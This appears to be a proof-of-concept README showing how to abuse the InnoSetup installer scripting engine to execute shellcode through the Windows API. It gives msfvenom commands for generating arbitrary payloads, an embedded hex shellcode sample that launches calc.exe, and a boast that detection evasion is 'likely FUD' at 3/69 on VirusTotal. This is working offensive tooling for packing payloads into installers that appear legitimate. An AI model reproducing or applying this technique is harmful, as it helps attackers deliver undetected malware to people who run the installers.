 # InnoSetup Execute Shellcode PoC

![Screenshot 2021-07-20 at 19.10.40.png](https://s3.eu-central-1.amazonaws.com/www.phrozen.io/uploads/Screenshot_2021-07-20_at_19.10.40.png)

This PoC demonstrate how to take advantage of InnoSetup scripting engine to run shellcode through Windows API.

The difficulty behind this concept was the lack of important code features (especially pointer support).

## How To

The process of generating your own InnoSetup Shellcode Scripts is now simplified.

You just need to generate your shellcode using the following command:

`msfvenom -p <payload> -a x86 --platform Windows <parameters> EXITFUNC=thread -f hex`

Example: `msfvenom -p windows/exec -a x86 --platform Windows CMD=calc.exe EXITFUNC=thread -f hex`

The format must be in hex and aligned to two.

Replace the Payload defined in InnoSetup Script (Top of the script content) with the freshly generated one.

```
#define Payload "fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ffac3c617c022c20c1cf0d01c7e2f252578b52108b4a3c8b4c1178e34801d1518b592001d38b4918e33a498b348b01d631ffacc1cf0d01c738e075f6037df83b7d2475e4588b582401d3668b0c4b8b581c01d38b048b01d0894424245b5b61595a51ffe05f5f5a8b12eb8d5d6a018d85b20000005068318b6f87ffd5bbe01d2a0a68a695bd9dffd53c067c0a80fbe07505bb4713726f6a0053ffd563616c632e65786500"
```

And thats it, you build your InnoSetup script and enjoy the result.

NOTICE: I'm working on the possibility to execute shellcode on external process. It is almost finished. 

## VirusTotal Score (20 JULY 2021)

https://www.virustotal.com/gui/file/697f7d55aa19e9dfaa5b86d8117c4f57adaba1ea252e008d7760e0a192515ac8/detection

3/69 (Mostly generic detection because of file reputation) / Likely FUD

![Screenshot 2021-07-20 at 19.09.53.png](https://s3.eu-central-1.amazonaws.com/www.phrozen.io/uploads/Screenshot_2021-07-20_at_19.09.53.png)
